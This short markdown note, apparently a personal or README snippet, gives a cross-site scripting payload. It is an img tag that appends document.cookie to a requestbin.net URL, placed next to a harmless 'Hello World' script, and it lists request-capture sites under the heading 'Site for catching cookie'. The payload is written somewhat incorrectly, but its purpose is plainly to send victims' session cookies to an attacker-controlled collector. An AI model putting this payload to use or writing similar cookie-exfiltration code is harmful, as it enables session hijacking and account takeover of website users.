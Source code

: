 
# Script 

```javascript
<img src="http://requestbin.net/r/zacnyyza?PARAMSPECIAL2=".concat(document.cookie)/>
<script> document.write("Hello World!"); </script>

```

# Site for catching cookie
[Request Bin](http://requestbin.net/)

# Site for test catching
[ReqBin](https://reqbin.com/)





